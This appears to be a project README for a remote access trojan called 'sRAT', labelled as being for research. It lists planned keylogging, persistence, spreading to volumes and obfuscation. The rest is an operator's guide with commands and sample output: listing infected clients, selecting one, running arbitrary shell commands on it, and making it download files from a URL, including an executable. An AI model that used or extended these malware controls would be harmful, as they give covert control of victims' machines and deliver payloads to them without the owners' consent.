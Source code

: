# sRAT

A small remote access trojan, for research purposes.

## todo list

1. communication DONE
    1. server host DONE
    2. request syntax DONE
2. features
    1. command exec DONE
    2. data transfer
    3. *key logging*
3. infection
    1. startup
    2. copy on volumes
4. sneak
    1. obfuscation
    2. encryption

## git usage

Always use **branches** when implementing a *feature* or a *fix*, with syntax `yourName/feature/featureName` or `yourName/fix/bugToFix`, and be careful when merging.

## server usage

You may insert commands after the `>` prompt. At any time, you can list commands typing `help`.

### select client

To display all connected clients, use

	>list

It will output a two-column array, with ids and MACs of all connected clients. To selet a client, use `select ID`. For example,

	>list
	id     MAC address
	1234   AA-BB-CC-DD-EE-FF
	5678   00-11-22-33-44-55
	>select 1234
	Selected client 1234

Now the prompt should begin as follows:

	1234>

### execute a command

When a client is selected, make it execute a command with `exec YOUR_COMMAND`.

	1234>exec ipconfig
	Added command to stack

It might take up to 10 seconds to be sent to the client, and then, the output will show off. If client is using Windows, you can start any shell command with

	1234>exec cmd.exe /C YOUR_COMMAND

The output will be sent back to you.

### download a file

When a client is select, make it download a file with `dwnld FILE_URL LOCAL_FILENAME`.

	1234>dwnld https://i.imgur.com/v4kJFU3.gif test.gif

If you want to send a local file, you can use

	1234>dwnld file:\\\C:\\Users\\FOO\\Desktop\\spam.exe out.exe